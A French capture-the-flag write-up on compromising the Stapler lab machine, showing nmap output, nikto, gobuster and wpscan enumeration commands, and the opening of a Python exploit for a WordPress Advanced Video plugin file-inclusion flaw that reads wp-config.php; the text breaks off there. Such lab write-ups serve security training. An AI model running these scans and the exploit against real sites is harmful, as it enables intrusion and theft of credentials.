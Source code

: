 ```bash

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms 192.168.56.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 21 00:46:05 2018 -- 1 IP address (1 host up) scanned in 143.30 seconds

```

\pagebreak

## On fouine ...

- Sur quels ports sont distribués les services ftp / ssh / samba / apache ?

On découvre un server web sur le port 12 380. On utilise donc les outils
d'exploration et on trouve un wordpress. Il faut noter que l'observation du
fichier d'indexation des moteurs de recherche `robots.txt` aurait permis
d'arriver au même résultat. On se rend donc sur
[https://stapler:12380/blogblog](https://stapler:12380/blogblog).
\
\
`wpscan` est un outil d'analyse des wordpress qui nous permet de
trouver facilement les exploits et les références associées aux vulnérabilités. On a également besoin de disable tls du fait que le certificat ssl du site web
pose problème (essayez avec les commandes simples, les options servent surtout à
debugguer suivant notre cas).


## On cherche des exploits

Les outils de scans / d'exploration et d'analyse:

- `nikto -h (host)`
- `gobuster -w wordlist -u url`
- `wpscan --url https://stapler:12380/blogblog/  --enumerate u --disable-tls-checks --wp-content-dir wp-content`
- `wpscan --url https://stapler:12380/blogblog/  --enumerate vp --disable-tls-checks --wp-content-dir wp-content`

On récupère un script permettant d'exploiter un des plugins du wordpress. \
`searchsploit advanced video`

```
Exploit Title:                                                     |  Path: (/usr/share/exploit-db/)
WordPress Plugin Advanced Video 1.0 - Local File Inclusion         | exploits/php/webapps/39646.py
```

\pagebreak

`cat /usr/share/exploit-db/exploits/webapps/php/39646.py`
```
#!/usr/bin/env python

# Exploit Title: Advanced-Video-Embed Arbitrary File Download / Unauthenticated Post Creation

# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)

import random
import urllib2
import re

url = "http://127.0.0.1/wordpress" # insert url to wordpress

```